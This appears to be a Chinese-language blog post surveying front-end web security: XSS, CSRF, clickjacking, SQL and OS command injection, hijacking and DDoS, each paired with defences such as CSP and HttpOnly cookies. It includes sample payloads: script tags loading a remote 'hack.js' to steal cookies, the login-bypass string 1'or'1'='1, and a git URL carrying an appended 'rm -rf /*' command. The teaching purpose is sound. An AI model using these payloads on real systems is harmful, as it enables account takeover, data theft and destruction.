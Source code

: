 ```yaml
---
slug: 前端网络安全
title: 前端网络安全
authors:
  name: Nikki
  title: a coder
  # url: https://github.com/wgao19
  image_url: https://avatars.githubusercontent.com/u/59378631?s=400&u=5c50f7a8cf81217122611fb72484a0288d90a739&v=4
tags: [security]
---
```


### 1.XSS

Cross Site Scripting

跨站脚本攻击

通过利用网页开发时留下的漏洞，通过巧妙地方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是js（其他人的脚本在我的网站中运行）

###### XSS攻击分类

- 反射型-url参数直接注入

  ```
  //普通
  http://localhost:3000/?from=china
  
  //alert
  http://localhost:3000/?from=<script>alter(1)</script>
  
  //获取cookie
  http://localhost:3000/?from<script src="http://localhost:4000/hack.js"></script>
  
  //短域名伪造
  
  //伪造cookie入侵 chrome
  document.cookie = "sdasdsafdfdsadsdxaccz"
  ```

- 存储型-存储到db后读取时注入

  ```
  //只要有人浏览了发帖子的网页运行了你发的脚本，就会受到攻击
  
  //评论
  <script>alter(1)</script>
  
  //跨站脚本注入
  我来了<script src="http://localhost:4000/hack.js"></script>
  ```

#### XSS攻击的危害-脚本能干啥就能干啥

- 获取页面数据
- 获取cookies
- 劫持前端逻辑

- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的登录态
- 欺骗用户

#### 防范手段

- HEAD

  ```
  ctx.set('X-XSS-Protection',0)//禁止XSS过滤
  //0是禁止XSS过滤
  //1是启用XSS过滤（通常浏览器是默认的）。如果检测到跨站脚本攻击，浏览器将清楚页面(删除不安全的部分)
  //利用HEAD可以拦截 但伪装一下就不行了
  ```

- CSP

  Content-Security-policy

  内容安全策略，是一个附加的安全层；本质是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行，我们只需配置规则

  ```
  //只允许加载本站资源
  Content-Security-policy:default-src 'self'
  
  //只允许加载HTTPS协议图片
  Content-Security-Policy:img-src https://*
  
  //不允许加载任何来源框架
  Content-Security-Policy:child-src 'none'
  ```

  ```
  //后端
  ctx.set('Content-Security-Policy',"default-src 'self'")
  ```

- 转义字符

  ```
  <% code %>用于执行其中js代码
  <%= code %>会对code进行html转义
  ```

  - 黑名单 都扼杀
  - 白名单 正常的标签可以使用 script就扼杀

- HTTP-Only

  ```
  response.addHeader("Set-Cookie","uid=112;Path=/;HttpOnly")
  ```

### 2.CSRF

跨站请求伪造，利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作 

#### 防御方式

- 验证码 人机验证+短信
- cookie值进行hash

### 3.点击劫持

是一种视觉欺骗手段。攻击者将需要攻击的网站通过iframe嵌套的方式嵌入自己的网页中，并将iframe设置为透明，在页面中透出一个按钮诱惑用户点击

#### 防御方式

- X-FRAME-OPTIONS

  ```
  ctx.set('X-FRAME-OPTIONS','DENY')
  ```

- js方式 

### 3.SQL注入

```
账号密码框输入 1'or'1'='1
```

#### 防御方式

使用占位符?占位参数

### 4.OS命令注入

os命令注入和SQL注入差不多，只不过SQL注入是针对数据库的，而os注入 是针对操作系统的

```
https://github.com/xx/xx.git && rm-rf /* &&
```

### 5.请求劫持

- DNS劫持

  DNS服务器（把域名转换成IP地址的服务器）被篡改，修改了域名解析的结果

- HTTP劫持

  运营商劫持，此时大概只能升级HTTPS

### 6.DDOS

分布式拒绝服务攻击

可以使很多的计算机在同一时间遭受到攻击，使攻击的目标无法正常使用，分布式拒绝服务攻击已经出现了很多次，导致很多的大型网站都出现了无法进行操作的情况，这样不仅仅会影响用户的正常使用，同时造成的经济损失也是非常巨大的

不是一种攻击，而是一大类攻击的总称

#### 常见攻击方式

- SYN Flood

  此攻击通过向目标发送具有欺骗性源IP地址的大量TCP“初始连接请求"SYN数据包来利用TCP握手。目标机器响应每个连接请求，然后等待握手中的最后一步，这一步从未发生过，耗尽了进程中的目标资源。

- HTTP Flood

  此攻击类似于同时在多个不同计算机上反复按Web浏览器中的刷新-大量HTP请求泛滥服务器，导致拒绝服务。

#### 防御手段

- 备份网站
- HTTP请求拦截
- 带宽扩容+CDN